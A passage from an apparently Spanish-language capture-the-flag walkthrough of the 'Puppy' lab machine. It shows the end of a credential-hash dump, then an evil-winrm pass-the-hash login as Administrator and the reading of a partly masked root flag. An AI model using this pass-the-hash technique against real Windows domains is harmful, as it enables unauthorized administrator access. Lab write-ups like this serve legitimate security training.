 DC$:des-cbc-md5:7f044607a8dc9710
[*] Cleaning up... 


Una vez que obtengas el hash, podrás iniciar sesión

root@kali] /home/kali/Puppy  
❯ evil-winrm -i 10.10.11.70 -u 'Administrator' -H '<HIDDEN>'                             
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
aaf0564a96XXXXXXXXX
*Evil-WinRM* PS C:\Users\Administrator\desktop> 








